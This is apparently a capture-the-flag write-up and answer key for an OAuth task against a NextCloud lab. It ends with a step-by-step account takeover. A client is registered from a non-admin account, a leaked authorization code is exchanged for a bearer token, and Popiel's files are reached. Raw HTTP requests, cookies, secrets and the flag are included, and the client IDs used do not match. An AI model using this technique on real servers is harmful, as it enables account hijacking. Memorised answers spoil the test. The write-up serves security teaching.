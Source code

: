 
# Task 8  Popiel

## 1. The NextCloud application plays two OAuth roles at once. Which ones?

Answer: `Authorization Server, Resource Server`

<br>

<details>
<summary>Solution</summary>

We can get that from description:
```
 - Resource Owner, 
 - Resource Server, 
 - Client, 
 - Authorization Server. 
```
</details>

<br>
<br>

## 2. What value of the response_type parameter indicates that an application is starting the authorization code flow?

Answer: `code`

<br>

<details>
<summary>Solution</summary>

We can find it in linked blog post:

```
response_type=code - This tells the authorization server that the application is initiating the authorization code flow
```

</details>

<br>
<br>

## 3. During registration, each client receives a unique pair of client_id and client_secret. (Y/N)

Answer: `Y`

<br>

<details>
<summary>Solution</summary>

It is trivial. Only yes or no :). But also we can find in linked blog post:


```
The application makes a POST request to the service’s token endpoint with the following parameters:

- client_id - The application’s client ID.
- client_secret - The application’s client secret. This ensures that the request to get the access token is made only from the application, and not from a potential attacker that may have intercepted the authorization code.
```

</details>

<br>
<br>

## 4. What endpoint you should use to exchange the OAuth code for a token?

Answer: `/apps/oauth2/api/v1/token`

<br>

<details>
<summary>Solution</summary>

I made regex and I used in search bar in vs code:

<img src="./task_8.png" width="600"/>

</details>

<br>
<br>

## 5. What is the content of the Fern_flower_ritual_shard6.txt file in Popiel's account?

Answer: `Midsummer_Corp{Spr1nkle_wat3r_fr0m_a_s@cr3d_spr1ng_0n_th3_fern}`

<br>

<details>
<summary>Solution</summary>

At first we must get authorization code from file `authorization_code.txt`:

`Oz5xWmb0pCQEZJp6puQQoSKuM1JK9jczqe3CLKqvl0VuFM7VsWJFqMU6CF0T0ipdOtmy8lkRPIsz0PoWSTbf2gTLx86NZ7YYIY6pZ0Sj8nP6kcQY2uUFRVhxzmAhudrR`

Next we must get file `supportticket_draft.txt`. Twardowski tried to send POST to `/apps/oauth2/clients`:
```
HTTP request
POST /apps/oauth2/clients HTTP/1.1
Host: nextcloud.ctf:8081
Content-Type: application/json
Content-Length: 86
Cookie: ocqpfobax3l0=ea40d3c44aebc7c3d2d060ce0c74f7c4; oc_sessionPassphrase=mzJr4dxugNOXA34YgaivUEgs8P4p%2BEju7qBoC87qZ9S4Cu2lUGAo50U3HiuEw3CAfGgusiTSBSMA8s03rgJY0PcVgGbGJEbyNKV3EdvhxL5lXP83qw8xjBQM6qTj083j; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; nc_username=admin; nc_token=RhnpFe88vZTezlB9J0FmEj9S4lrX%2FLyl; nc_session_id=ea40d3c34aebb7c3d2d060ce0c74f7c4

{"name":"alchemy-mixer-ng","redirectUri":"https://alchemy-mixer-ng.ctf/auth/callback"}

```

I tried it in Postman, but I got response:
``` json
{
    "message": "Current user is not logged in"
}
```

So I started to search something about that endpoint.

<img src="./task_8_a.png" width="800"/>

We can get information in `apps/oauth2/lib/Controller/SettingsController.php` that no admin is required to send that request. So cookie `nc_username=admin` is red herring. 

<img src="./task_8_b.png" width="1000"/>

So lets be logged in any other account. For example Puck and create app password and copy request token and cookie.

<img src="./task_8_c.png" width="800"/>

We got response:
``` json
{
    "id": 2,
    "name": "alchemy-mixer-ng",
    "redirectUri": "https://alchemy-mixer-ng.ctf/auth/callback",
    "clientId": "jpQ0yUpeKnyjHcujSzv6ckrioDJBZkV3VERm40vRFF0XCMlhGAQWvMZIDBuJ0mg4",
    "clientSecret": "ERoN6gXYe0qSbpNg6OUqxwMoJGFRdMhjpRjp9yMYNe9Al9JECLSxMwNYlObPee44"
}
```
Now we must send request to the `/apps/oauth2/api/v1/token` with json:

```json
{
    "grant_type": "authorization_code",
    "code": "Oz5xWmb0pCQEZJp6puQQoSKuM1JK9jczqe3CLKqvl0VuFM7VsWJFqMU6CF0T0ipdOtmy8lkRPIsz0PoWSTbf2gTLx86NZ7YYIY6pZ0Sj8nP6kcQY2uUFRVhxzmAhudrR",
    "redirect_uri": "https://alchemy-mixer-ng.ctf/auth/callback",
    "client_id": "cvpA0RrYxPz0VMeEQRXejoOJk5IQ2PPOkH803Ywap4NCC06JVfJtmBUgAS6YQmQl",
    "client_secret": "mJSTRqv62M9hX5qFmpmQN1vVmrMCZhKeiYfmRJnJjHCT0H8VeJii5FLSkRGqdjkb"
}
```

It is important to use snake_case. 

Data structure is got from blog post. 

```
- grant_type=authorization_code
- code
- redirect_uri
- client_id
- client_secret
```

code we can get from `authorization_code.txt`

After sending that, we received:

```json
{
    "access_token": "oa5yaxagaZVQDV47OAgltF58ZE1Sq6pwO5Xzrf16ma35DIfzQZA2QHbxXafzgySfAmd2C5Ca",
    "token_type": "Bearer",
    "expires_in": 3600,
    "refresh_token": "Oz5xWmb0pCQEZJp6puQQoSKuM1JK9jczqe3CLKqvl0VuFM7VsWJFqMU6CF0T0ipdOtmy8lkRPIsz0PoWSTbf2gTLx86NZ7YYIY6pZ0Sj8nP6kcQY2uUFRVhxzmAhudrR",
    "user_id": "popiel"
}
```

The most important data is "token_type" and "access_token".

Now we must apply header:

```
Authorization: Bearer oa5yaxagaZVQDV47OAgltF58ZE1Sq6pwO5Xzrf16ma35DIfzQZA2QHbxXafzgySfAmd2C5Ca
```

I used for that application `ModHeader`

<img src="./task_8_d.png" width="700"/>

Next we must logout of Puck' account. After that we are automatically logged in Popiel.

In `Fern_flower_ritual_shard6.txt` we got answer.


</details>